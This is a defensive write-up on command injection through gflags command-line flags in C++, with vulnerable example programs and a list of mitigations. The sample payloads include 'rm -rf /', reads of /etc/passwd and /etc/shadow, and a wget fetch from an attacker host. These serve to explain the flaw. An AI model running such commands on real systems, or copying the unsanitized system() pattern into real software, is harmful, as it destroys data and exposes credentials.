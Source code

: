 ## Deep Analysis: Inject Malicious Characters in Flag Value (Command Injection)

This analysis provides a deep dive into the "Inject Malicious Characters in Flag Value (Command Injection)" attack tree path, focusing on applications utilizing the `gflags` library in C++. We will break down the attack vector, steps, potential impact, and provide specific recommendations for mitigation.

**Understanding the Vulnerability:**

This attack path exploits a fundamental weakness in how applications handle external input, specifically command-line flags parsed by `gflags`. The core issue is the **lack of proper sanitization or validation** of flag values before they are used in potentially dangerous operations, such as executing system commands. When an application directly or indirectly uses a flag's value within a system call (e.g., `system()`, `execve()`, `popen()`) without ensuring it's safe, an attacker can inject shell metacharacters to manipulate the intended command execution.

**Detailed Breakdown of the Attack Tree Path:**

**1. Attack Vector: The Application Uses a Command-Line Flag's Value Directly or Indirectly in a System Call or Command Execution without Proper Sanitization.**

* **Direct Usage:** This is the most straightforward scenario. The application retrieves the value of a `gflags` flag and directly passes it as an argument to a system command execution function. For example:

   ```c++
   #include <iostream>
   #include <cstdlib>
   #include <gflags/gflags.h>

   DEFINE_string(command, "ls -l", "Command to execute");

   int main(int argc, char* argv[]) {
       gflags::ParseCommandLineFlags(&argc, &argv, true);
       std::string cmd = FLAGS_command;
       std::cout << "Executing command: " << cmd << std::endl;
       system(cmd.c_str()); // Vulnerable line
       return 0;
   }
   ```

   In this example, if an attacker provides `--command="; rm -rf /"` the `system()` call will execute `ls -l ; rm -rf /`, potentially deleting critical system files.

* **Indirect Usage:** The flag value might not be directly passed but used to construct a command string. This adds a layer of indirection but doesn't eliminate the vulnerability if sanitization is missing. For example:

   ```c++
   #include <iostream>
   #include <cstdlib>
   #include <string>
   #include <gflags/gflags.h>

   DEFINE_string(filename, "output.txt", "Filename for output");

   int main(int argc, char* argv[]) {
       gflags::ParseCommandLineFlags(&argc, &argv, true);
       std::string cmd = "echo 'Data' > " + FLAGS_filename;
       std::cout << "Executing command: " << cmd << std::endl;
       system(cmd.c_str()); // Vulnerable line
       return 0;
   }
   ```

   An attacker could provide `--filename="; cat /etc/passwd > attacker.txt"` to exfiltrate sensitive information.

**2. Steps:**

* **Identify flags used in system calls or command execution:** This is the reconnaissance phase for the attacker. They would look for flags whose values are likely to be used in system commands. This can be done through:
    * **Source Code Review:** Examining the application's code to identify where flag values are used and how they are processed.
    * **Documentation Analysis:** Reviewing the application's documentation, help messages, or API descriptions to understand the purpose and usage of different flags.
    * **Dynamic Analysis (Fuzzing/Testing):** Providing various inputs to the application and observing its behavior, particularly when interacting with the operating system. Attackers might try injecting common shell metacharacters into flag values and see if it leads to unexpected behavior.
    * **Error Messages and Logging:** Analyzing error messages or logs that might reveal how flag values are being used in system calls.

* **Inject shell metacharacters into the flag value:** Once a vulnerable flag is identified, the attacker crafts an input containing shell metacharacters. Common metacharacters include:
    * **Command Separators:** `;`, `&`, `&&`, `||` (allow executing multiple commands)
    * **Piping:** `|` (redirects output of one command to the input of another)
    * **Command Substitution:** `$()` or backticks `` ` `` (executes a command and substitutes its output)
    * **Redirection:** `>`, `<`, `>>` (redirects input/output to files)
    * **Backgrounding:** `&` (runs a command in the background)

    The attacker would provide this crafted input through the command line when running the application. For example:

    ```bash
    ./vulnerable_app --command="ls -l ; cat /etc/shadow"
    ./vulnerable_app --filename="; wget attacker.com/malicious_script.sh -O /tmp/malicious.sh"
    ```

* **The application executes unintended commands due to the unsanitized flag input:** The vulnerable application, lacking proper sanitization, directly or indirectly passes the attacker-controlled flag value to a system call function. The shell interprets the injected metacharacters, leading to the execution of the attacker's malicious commands alongside the intended application logic.

**3. Potential Impact:**

Successful command injection can have severe consequences, granting the attacker significant control over the compromised system:

* **Data Exfiltration:** The attacker can use commands like `cat`, `scp`, `curl`, or `wget` to steal sensitive data from the system, including configuration files, databases, and user data.
* **System Compromise:** The attacker can gain full control over the system by creating new user accounts, modifying system configurations, installing backdoors, or escalating privileges.
* **Denial of Service (DoS):** The attacker can execute commands that consume system resources (CPU, memory, disk I/O), causing the application or the entire system to become unresponsive.
* **Remote Code Execution (RCE):** This is the most critical impact. The attacker can execute arbitrary code on the target system, potentially leading to complete system takeover.
* **Lateral Movement:** If the compromised application has access to other systems or networks, the attacker can use it as a pivot point to further compromise the infrastructure.
* **Data Manipulation/Destruction:** The attacker can modify or delete critical data, leading to data loss and business disruption.

**Specific Considerations for Applications Using `gflags`:**

While `gflags` is a useful library for parsing command-line arguments, it **does not inherently provide input sanitization or protection against command injection**. The responsibility for securing the application lies entirely with the developers.

* **`gflags` focuses on parsing and managing flags, not on validating their content for security.**
* **Directly using `FLAGS_` variables in system calls without validation is a common source of this vulnerability.**
* **Developers need to be acutely aware of the potential dangers when using flag values in shell commands.**

**Recommendations for Mitigation:**

To prevent this type of command injection vulnerability, the development team should implement the following security measures:

* **Input Sanitization and Validation:** This is the most crucial step. Before using any flag value in a system call, rigorously sanitize and validate it.
    * **Whitelisting:** Define a set of allowed characters or patterns for the flag value. Reject any input that doesn't conform to the whitelist. This is the preferred approach.
    * **Blacklisting:** Identify and remove or escape dangerous characters (shell metacharacters). However, blacklisting can be easily bypassed, so it should be used with caution and as a secondary measure.
    * **Encoding/Escaping:** Properly encode or escape shell metacharacters before passing the flag value to a system call. Libraries and functions specific to the shell being used (e.g., `shlex.quote` in Python, `escapeshellarg` in PHP) can help with this.

* **Avoid Direct Execution of Shell Commands:** Whenever possible, avoid using functions like `system()`, `popen()`, or `exec*()`.
    * **Use Libraries and APIs:** Utilize libraries or APIs that provide safer ways to interact with the operating system or perform specific tasks. For example, instead of using `system("rm file.txt")`, use file system manipulation functions provided by the programming language or operating system.
    * **Parameterization/Prepared Statements (where applicable):** While not directly applicable to shell commands, the principle of parameterization used in database queries can be adapted in some scenarios to prevent interpretation of injected code.

* **Principle of Least Privilege:** Run the application with the minimum necessary privileges. If an attacker manages to inject commands, their impact will be limited by the application's restricted permissions.

* **Regular Security Audits and Code Reviews:** Conduct thorough security audits and code reviews to identify potential vulnerabilities, including command injection flaws. Pay close attention to how flag values are being used.

* **Static Analysis Security Testing (SAST) Tools:** Utilize SAST tools that can automatically scan the codebase for potential command injection vulnerabilities. Configure these tools to specifically look for patterns where `gflags` values are used in system calls without proper sanitization.

* **Security Linters:** Employ security linters that can flag potentially dangerous code patterns, such as the direct use of flag values in system calls.

* **Educate Developers:** Ensure that the development team is aware of the risks associated with command injection and understands how to prevent it. Provide training on secure coding practices.

**Conclusion:**

The "Inject Malicious Characters in Flag Value (Command Injection)" attack path highlights a critical security vulnerability that can arise when applications using `gflags` fail to properly sanitize user-provided input before using it in system commands. By understanding the attack vector, steps, and potential impact, and by implementing the recommended mitigation strategies, development teams can significantly reduce the risk of this type of attack and build more secure applications. Remember that security is a continuous process, and regular vigilance and proactive measures are essential.
